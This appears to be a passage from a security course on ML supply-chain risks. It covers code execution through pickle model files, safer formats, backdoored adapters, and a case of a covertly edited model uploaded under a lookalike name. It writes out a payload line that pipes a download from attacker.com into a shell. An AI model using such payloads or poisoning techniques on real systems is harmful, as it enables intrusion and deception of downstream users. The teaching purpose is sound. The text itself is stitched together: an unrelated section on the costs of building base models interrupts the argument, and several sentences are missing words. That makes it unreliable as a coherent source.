

Learning Objectives
By the end of this section, you will be able to:
- Identify ML supply-chain risks in models, weights, plugins, and datasets, and map each to the trust boundary it violates.
- Explain why loading a model file can execute code, and why a benchmark score does not certify a model's integrity.
A Model File Can Run Code
Almost no team builds an AI system entirely from scratch. They download a base model, apply someone else's fine-tuned adapter, pull in a plugin, and train on data gathered from public sources. Every one of those is a component sourced from outside the team's control, and every one is a place trust can be misplaced. Start with the component that surprises people most.
The short answer is money. The longer answer involves data, hiring, electricity, and a lot of failed projects.
Compute costs
Training a frontier model means tens of thousands of GPUs running continuously for months. A single training run for something on the scale of GPT-4 costs in the hundreds of millions of dollars, and that does not include the failed runs, dead-end experiments, and hyperparameter searches that come first. In an IBM survey, 70% of executives pointed to generative AI as the reason their compute budgets climbed roughly 89% between 2023 and 2025. That kind of spend on one component of a larger system is out of reach for nearly everyone.
The data is not there
Frontier models train on trillions of tokens from broad, carefully curated sources. Most organizations do not have anything close to that. They have data, but it is fragmented across systems that do not talk to each other, inconsistent in format, and rarely labeled. Before training can even start, someone has to source, clean, deduplicate, label, and secure the whole collection. Gartner projects that through 2026, 60% of AI projects will be abandoned specifically because the data was not ready. The data problem is often harder than the model problem.
Neither are the people
Building a base model is a different skillset from fine-tuning or deploying one. It needs researchers who understand pre-training dynamics, distributed systems engineers who can keep a multi-node cluster stable for weeks, and data engineers who can build pipelines at internet scale. Senior AI engineer salaries averaged around $213,000 in 2025, with a 25-45% premium over comparable software roles. A pre-training team runs into the millions per year in labor alone, and the people who can do this work are concentrated at a small number of labs and large tech companies. Recruiting them away is not a realistic plan.
Energy and carbon
Training a large model is physically expensive. A peer-reviewed study estimated GPT-4's training run produced roughly 7,100 metric tons of CO2, about the same as the annual emissions of 1,550 Americans. A single AI-grade GPU draws 300 to 400 watts at full load. Cooling the hardware accounts for up to 40% of a data center's energy use. Data centers now consume about 4.4% of all electricity in the United States, and that share is rising. For most organizations, the power and cooling infrastructure alone is a cost they cannot absorb.
Most who try, fail
Over 80% of AI projects fail, roughly double the rate for non-AI technology projects. MIT studied generative AI pilots in 2025 and found a 95% failure rate, not because the technology broke, but because the business case fell apart once hidden costs surfaced. Every executive IBM surveyed reported canceling or postponing at least one generative AI initiative over cost. Building a base model from scratch is the most expensive version of this bet.
So why do a few companies still do it?
The reasons are strategic. A company that depends on another company's model API is exposed to price hikes, deprecation cycles, and the possibility that its supplier starts competing with it directly. Both OpenAI and Anthropic launched managed agent platforms in 2025, moving into the same application layer their API customers occupy. Building your own model means controlling costs, avoiding that dependency, and training on proprietary data no general-purpose model has seen.
Meta open-sourced its Llama models as a way to make the model layer cheap so the value flows to Meta's own applications, a classic move. But this path only works if you already have massive compute, data at internet scale, and a deep research team. For everyone else, the realistic option is to fine-tune or adapt an existing model. That is exactly why the supply chain described here exists, and why securing it matters.
When a team saves a trained model to disk, it needs to the model: convert the live Python objects in memory into a stream of bytes that can be written to a file, stored, and later loaded back. The diagram below shows what that means in general terms, then shows where the attack surface appears.
's default save function, torch.save(), uses Python's format to do this. Pickle is powerful because it can serialize almost any Python object, but that power is exactly the problem. A pickle file is not a passive list of numbers. It is a sequence of instructions for the Python interpreter. One of those instructions, called __reduce__, tells pickle "to rebuild this object, call this function with these arguments." The function can be anything: os.system, subprocess.Popen, or any other callable. An attacker who embeds os.system("curl attacker.com/payload | sh") in a __reduce__ instruction gets arbitrary code execution the moment someone calls torch.load() on the file, before the model ever runs inference. Reported payloads have included reverse shells, credential theft, and system fingerprinting.

The documentation does suggest mitigations. It recommends signing data with hmac to verify that a pickle file has not been tampered with, and it points to JSON as a safer alternative for untrusted data. Neither truly solves the model problem, but does help protect us better. HMAC signing verifies integrity (the file has not been modified in transit) but says nothing about intent: a model uploaded by someone you do not trust is still dangerous even if the signature is valid. And JSON cannot represent the complex nested objects that make up a model checkpoint, which is exactly why PyTorch chose pickle in the first place. We want a format that stores only tensor data and cannot represent code at all, which is what safetensors tries to provide.
Load the file yourself and watch what happens before any inference runs. Switch between a pickle-based .bin file and a file, and see why one is inert data and the other is closer to a program.
Detection is its own contest. Scanners exist to flag dangerous model files, and attackers work to slip past them. Across 2024 and 2025, researchers found malicious models compressed with an unusual archive format so scanners that expected the standard one missed them, and other files deliberately malformed so that a scanner rejected them as broken while the loader still executed enough of the payload to matter. A scanner is a useful control, not a guarantee.
The format landscape
Pickle is not specific to PyTorch. It is Python's general-purpose serialization, used by scikit-learn, XGBoost, and many other libraries. PyTorch adopted it because torch.save() needed a way to persist arbitrary Python objects, and pickle could serialize almost anything. That convenience is why pickle became the default format on model hubs, and why thousands of .bin files on are pickle archives. The question for a security team is not "which framework?" but "which format did the file arrive in, and what does loading it execute?"
Several formats now compete for different roles in the model lifecycle. The diagram below maps each one to the stage where it appears, the trust assumption it carries, and the known attack surface.
Exists because the pickle problem was well understood and the fix was straightforward: store only tensor data, no code. Hugging Face released it in September 2022, it passed a security audit in May 2023, and by October 2023 it became the default format in the Hugging Face transformers library. A safetensors file is a JSON header (tensor names, shapes, data types) followed by raw bytes. There is nothing to execute because the format cannot represent computation, only numbers. When you see a safetensors file on a model hub, the risk of code-on-load is gone.
Serves a different need: running quantized LLMs on consumer hardware. It comes from the llama.cpp project (the engine behind , , and ) and replaced an earlier chain of formats (GGML, GGMF, GGJT) in August 2023. GGUF's tensor data is inert, like safetensors. But GGUF files can also embed Jinja2 chat templates in their metadata, and if the loading application renders those templates without sandboxing, an attacker gets server-side template injection. This was demonstrated in CVE-2024-34359, nicknamed "Llama Drama," and again in CVE-2026-5760. The result: a model file that looks like pure data can still achieve code execution through a side channel in its metadata.
(Open Neural Network Exchange)
Occupies the cross-framework lane. Created by Facebook and Microsoft in 2017, ONNX stores a model as a recipe: step-by-step instructions describing which mathematical operations to perform and in what order. Each step is a standard operation (, , , etc.) and the whole recipe is saved using , a compact binary encoding. Because the file only describes math operations, not arbitrary code, loading it does not execute anything by itself. However, ONNX models can reference custom operations implemented as shared libraries, and past vulnerabilities have included directory traversal when resolving external tensor data. The trust question for ONNX is not "does loading execute code?" (generally no) but "does this model pull in anything from outside the file?"
The Rest of the Supply Chain
The vocabulary here is not new, only relocated. The software supply chain section in Module 6 established the trust boundaries, the attack vectors, and the frameworks that answer them; a model hub is a package registry, a set of weights is an artifact, and the questions you ask about provenance do not change because the artifact happens to be a tensor file.
The serialized weight file is one component. The others follow the same pattern: something sourced from outside, trusted to be what it claims. Each is a that can be violated independently.
Four components, four trust boundaries
Base model from a public hub
Trusted to be the model it says it is, trained the way its card describes. A tampered or edited model passes this trust silently.
Community fine-tuned adapter
Trusted to adjust behavior benignly. A backdoored adapter can pass casual testing while carrying a conditional defect.
Third-party plugin
Trusted to do only what its description says and nothing more. An untrusted plugin can take unauthorized actions once integrated.
Scraped dataset
Trusted not to have been salted with poison, which connects straight back to the poisoning attacks that open this module.
Why this matters for a security team
The reason supply-chain compromise is dangerous is that the malicious component looks legitimate and is often deeply integrated before anyone examines it. A poisoned produces plausible outputs. A malicious weight file loads without error. A backdoored adapter passes casual testing. By the time the component is in production, it is entangled with everything around it. This is the same trust-boundary reasoning used for software dependencies, now extended to models, weights, datasets, and plugins. When a team declares a dependency on a public model, they are not just importing weights; they are extending trust to whoever produced and hosted that model, and to the format the weights arrived in.
A Benchmarked Model That Quietly Lies
A security company demonstrated the model-hub risk with a pointed exercise. They took an open model, used a targeted editing technique to change a single factual association inside it, and uploaded the result to a public hub under a name chosen to look like a well-known research group's. Their edited model differed from the original by about 0.1% on a standard benchmark, yet it confidently asserted the false fact they had planted.
Analyzing the case
-
The trust boundary
The attack lives at the developer-to-hub boundary. A team searching the hub trusts that a model named like a reputable group's is from that group, and that a model passing benchmarks is sound. The near-miss name invites a hurried download of the wrong repository. -
Why benchmarks did not catch it
The edit changed one narrow behavior and left everything else intact, so aggregate benchmark performance barely moved. A model can pass every evaluation a team runs and still carry a defect nobody thought to test for. Passing benchmarks certifies performance on the benchmark, not integrity. -
The fix
The defense is not a better benchmark; it is provenance. Verifying where a model came from, who signed it, and whether it matches a trusted source addresses the boundary the attack crossed, in a way no accuracy score can.
Audit a Deployment Pipeline
Before you write the register, walk the pipeline once here. Inspect each component, name the primary risk it carries, and find the single change that reduces risk most.
Fine-tuned open model review!
You are the reviewer for a small team that wants to deploy a fine-tuned open model to triage alerts. They plan to download a base model from a public hub, apply a community adapter, load a third-party enrichment plugin, and train on a dataset scraped from public threat feeds. Produce a short risk register: list every point where the team trusts something outside their control, name the trust boundary each crosses and the supply-chain attack it enables, and map each to the relevant OWASP LLM application-risk entry. Close with a one-paragraph recommendation naming the single change that most reduces risk, and why. Use the answer key provided with your materials to check your reasoning.
- The serialized weight file is the sharpest risk: loading it can execute code. Preferring a tensors-only format and verifying provenance is the common top-priority fix.
- The unverified public model and community adapter are poisoning vectors (tampered or backdoored weights).
- The scraped dataset is a poisoning surface, the same class of risk as the web-scale attacks from Section 1.
- The plugin is trusted to act within scope; unscoped permissions widen the blast radius.
Why can simply loading a downloaded model file, in a common serialization format (i.e. Pickle), compromise your machine before you run any inference?